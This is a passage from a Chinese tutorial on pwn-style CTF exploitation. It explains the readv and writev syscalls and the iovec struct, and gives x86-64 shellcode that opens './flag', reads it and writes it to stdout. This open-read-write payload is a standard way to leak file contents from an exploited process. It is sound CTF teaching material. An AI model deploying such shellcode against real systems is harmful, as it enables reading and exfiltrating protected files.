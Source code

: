 `readv`函数实现了分散输入的功能，即将可以将一个文件描述符的内容写到多个内存缓冲区中。注意这里的“写入到多个内存缓冲区”指的是依次写入，第1个缓冲区写满之后才会接着文件后面的内容继续写第2个缓冲区。

```c
    struct iovec{
        void __user* iov_base;
        __kernel_size_t iov_len;
    }
```

这里的`vec`参数应该是`struct iovec`结构体的数组，而第三个参数`vlen`为数组的长度。`iovec`结构体中，`iov_base`为一个内存地址，`iov_len`为内存的长度。因此如果需要使用这个系统调用，需要首先构造`iovec`结构体实例。在pwn题中，我们只需要构造一个结构体实例即可。

## D. sys_writev (nr=20)

```c
    ssize_t writev(int fd, const struct iovec *iov, int iovcnt);
```

`writev`函数实现了集中输出的功能，即将`iovec`结构体数组中的缓冲区内容集中输出到一个文件描述符中。

下面为使用`readv`函数和`writev`函数的示例：

```masm
    mov rax, 0x67616c662f2e
    push rax
    mov rdi, rsp
    xor edx, edx
    xor esi, esi
    push SYS_open
    pop rax
    syscall
    
    push 3
    pop rdi
    push 0x1    /* iov size */
    pop rdx
    push 0x100
    lea rbx, [rsp-8]
    push rbx
    mov rsi, rsp
    push SYS_readv
    pop rax
    syscall
    
    push 1
    pop rdi
    push 0x1    /* iov size */
    pop rdx
    push 0x100
    lea rbx, [rsp+8]
    push rbx
    mov rsi, rsp
    push SYS_writev
    pop rax
    syscall
```
